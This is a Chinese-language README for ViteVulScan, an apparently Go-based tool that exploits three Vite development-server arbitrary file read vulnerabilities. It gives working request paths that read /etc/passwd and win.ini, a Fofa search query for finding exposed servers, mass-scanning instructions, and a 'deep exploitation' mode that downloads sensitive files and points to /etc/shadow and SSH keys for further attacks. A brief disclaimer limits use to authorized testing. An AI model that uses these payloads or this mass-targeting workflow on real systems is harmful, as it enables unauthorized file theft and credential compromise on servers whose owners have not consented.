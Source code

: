 # ViteVulScan

## 漏洞介绍
本项目涉及3个漏洞：CVE-2025-30208/CVE-2025-31125/CVE-2025-31486，都是关于Vite开发服务器任意文件读取漏洞，这三个漏洞覆盖面大且利用简单不受限制。

### 漏洞POC：
CVE-2025-30208：
>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

CVE-2025-31125
> Windows: /@fs/C://windows/win.ini?import&?inline=1.wasm?init
>
> Linux: /@fs/etc/passwd?import&?inline=1.wasm?init

CVE-2025-31486
> Windows: /@fs/x/x/x/vite-project/?/../../../../../C://windows/win.ini?import&?inline=1.wasm?init
> 
> Linux: /@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?inline=1.wasm?init

路径中的/@fs可以不需要携带。

### Fofa测绘语法：
> body="/@vite/client"

## 工具使用介绍
### 工具特点
1. 可以联动fofa进行批量利用
2. 会解析存在漏洞的精确路径并进行深度利用
3. 充分利用 go 的并发功能，可以实现在短时间内对大量资产进行快速的批量探测

### 编译说明
go版本：`go 1.20以上版本`

进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o ViteVulScan -ldflags="-s -w" -trimpath .

` ./ViteVulScan`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改config目录下的app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍



> Usage of ./ViteVulScan:

| 参数                      |                                        描述                                        |
|-------------------------|:--------------------------------------------------------------------------------:|
| -cve                    | 使用哪个cve漏洞进行检测。支持CVE_2025_30208/CVE_2025_31125/CVE_2025_31486。默认使用CVE_2025_30208。 |
| -fofa                   |                        指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测                         |
| -u    \|    -url        |                                 指定单个url目标，对其进行检测                                 |
| -f     \|     -filename |                               指定一个文件名，批量检测其中的url地址                               |
| -e                      | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

### 说明

1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ````
2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。 
3. 同时支持对linux和windows平台进行利用，利用的字典分别为dict目录下的linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。

### 示例

**示例 1：**联动 fofa 进行批量检测：

./ViteVulScan -fofa

![image-20250410145741383](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410145749802.png)

扫描结束后，会在 result 目录下看到保存利用成功的 url 的csv 文件，以时间戳为名：

![image-20250410151756704](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410151758397.png)

**示例 2：**针对存在漏洞的 url 进行深度利用：

./ViteVulScan -u example.com -e

![image-20250410150341952](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410150344090.png)

如果显示“利用成功”，可以查看result 目录，会有以扫描的 url 为名的目录，扫描出来的敏感文件内容都被解析成原本文件格式后保存到相应路径中，效果如下所示：

![image-20250410150836985](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410150838982.png)

以保存的 result/localhost:5173/etc/passwd 中内容为例，可以看到敏感信息的完整内容被保存下来，便于后续的利用（如果能读取到 /etc/shadow 或者是服务器的ssh 私钥，就可以进一步利用了）。

![image-20250410151044619](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410151045981.png)


# 免责声明
本工具仅用于安全研究和授权测试，请勿用于非法用途。使用本工具进行任何未经授权的测试所造成的后果由使用者自行承担。

# 更新
## 3月29日首次发布：
- 实现fofa进行资产搜集功能
- 实现用CVE_2025_30208漏洞进行批量验证
- 添加命令行解析功能
## 4月1日：
- 实现深度利用功能
## 4月2日：
- 添加对刚出来的CVE_2025_31125漏洞的验证。
## 4月9日
- 修改了 fofa 模块的错误。
- 添加了并发功能，支持快速批量探测资产是否存在漏洞。
- 添加了对 CVE_2025_31486的验证
- 修改了项目文件结构